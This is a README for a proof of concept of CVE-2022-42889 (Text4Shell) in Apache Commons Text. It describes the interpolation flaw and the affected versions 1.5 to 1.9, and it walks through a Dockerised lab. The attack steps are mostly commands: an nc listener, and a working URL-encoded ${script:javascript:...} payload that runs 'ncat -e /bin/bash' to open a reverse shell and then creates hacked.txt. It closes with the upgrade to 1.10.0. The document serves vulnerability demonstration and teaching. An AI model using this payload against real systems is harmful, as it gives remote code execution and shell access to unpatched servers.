

# CVE-2022-42889-POC
Proof of Concept for the Apache commons-text vulnerability CVE-2022-42889.

## What's the Issue :
Apache Commons Text performs variable interpolation, allowing properties to be dynamically evaluated and expanded. The standard format for interpolation is "${prefix:name}", where "prefix" is used to locate an instance of org.apache.commons.text.lookup.StringLookup that performs the interpolation. Starting with version 1.5 and continuing through 1.9, the set of default Lookup instances included interpolators that could result in arbitrary code execution or contact with remote servers. These lookups are: - "script" - execute expressions using the JVM script execution engine (javax.script) - "dns" - resolve dns records - "url" - load values from urls, including from remote servers Applications using the interpolation defaults in the affected versions may be vulnerable to remote code execution or unintentional contact with remote servers if untrusted configuration values are used.

## Affected Versions :

**Apache Commons Text Version `1.5` To `1.9`**


## Step by Step guide to show `CVE-2022-42889-POC` vulnerability :

### 1. Build the application using Docker(Terminal Tab 1)

```
docker build --tag=test/text4shell .
```

### 2. Run the application(Terminal Tab 2) 

```
docker run -it -p 80:8080 --name text4shell test/text4shell
```

### 3. Open new terminal tab and run below command(Terminal Tab 3)

```
docker exec -it text4shell /bin/bash
```

### 4. Now it time to start listener for reverse shell on your local system(Terminal Tab 4)

```
nc -nlvp 8888
```

### 5. Test the app (Terminal Tab 5)

```
curl http://localhost/text4shell/attack?search=<anything>
```

### 6. Now it time to test attack (Terminal Tab 5)

> Attack can be performed by passing a string "\$\{prefix:name\}\" where the prefix is the aforementioned lookup: ${script:javascript:java.lang.Runtime.getRuntime().exec('ncat -e /bin/bash 172.17.0.1 8888')}


```
curl http://localhost/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27ncat%20-e%20%2Fbin%2Fbash%20172.17.0.1%208888%27%29%7D
```

### 7. On go to the Terminal Tab 3 and execute below commands one by one

```
pwd
cd /root
pwd
ls
```

### 8. On go to the Terminal Tab 5 and execute below commands one by one

```
pwd
cd /root
pwd
ls
touch hacked.txt
ls
```

### 9. On go to the Terminal Tab 3 and execute below commands one by one

```
pwd
ls
```

> If you able to see hacked.txt file on Terminal Tab 3 after ls command. The attack is executed.



### 10. Close all the terminals 

## How to fix this vulnerability :

Users are recommended to upgrade to Apache Commons Text `1.10.0`, which disables the problematic interpolators by default.

## More Informations :

- [NVD-NIST](https://nvd.nist.gov/vuln/detail/CVE-2022-42889)